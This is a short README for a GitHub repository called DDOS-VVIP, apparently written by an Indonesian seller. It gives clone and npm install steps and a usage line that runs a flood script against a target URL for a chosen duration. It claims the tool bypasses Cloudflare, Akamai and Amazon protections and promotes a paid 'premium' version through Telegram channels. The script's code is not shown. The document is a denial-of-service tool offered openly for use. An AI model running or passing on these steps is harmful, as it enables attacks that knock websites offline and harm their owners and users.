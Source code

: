 # DDOS-VVIP



git clone https://github.com/XinnChan/DDOS-VVIP






install module




apt install npm


npm i cloudscraper


npm i request


npm i child_process

npm i exec


cd && cd DDOS-VVIP


Usage: node XCDDOS-FLOOD.js URL DURATION


example: node XCDDOS-FLOOD.js https://target.com 120


.


.


.


Support Termux && VPS


.


Bypassing CF, Rule, DDG, UAM, Akamai, Amazon


.


.


Jika Di Rasa Kurang Over Power Bisa Order Versi Premium


Telegram Channel DM: https://t.me/Xin_Kenji


.


.


.


Telegram Channel DDOS: https://t.me/XC_Fixxed


Telegram Channel VPS: https://t.me/Xc_Corporation
